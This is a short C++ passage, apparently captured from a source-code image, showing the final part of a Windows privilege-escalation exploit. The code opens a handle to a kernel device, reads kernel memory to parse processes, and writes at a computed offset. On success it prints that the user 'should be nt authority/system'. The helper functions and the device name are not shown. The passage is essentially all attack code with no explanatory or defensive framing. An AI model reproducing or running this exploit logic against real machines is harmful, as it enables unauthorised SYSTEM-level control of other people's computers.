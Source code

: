 ```cpp
        input,
        modulus + 0x8 + 0xc,
        NULL,
        0,
        &bytes_ret,
        NULL))
    {
        cout << "[>] Write operation succeeded, you should be nt authority/system\n";
    }
    else {
        cout << "[!] Write operation failed, exiting...\n";
        exit(1);
    }
}

int main()
{
    srand((unsigned)time(0));
    HANDLE hFile = grab_handle(DEVICE_NAME);

    PROC_DATA proc_data = read_mem(hFile);

    cout << "\n[>] Parsing procs...\n";
    parse_procs(proc_data, hFile);

    write(hFile);
}
```
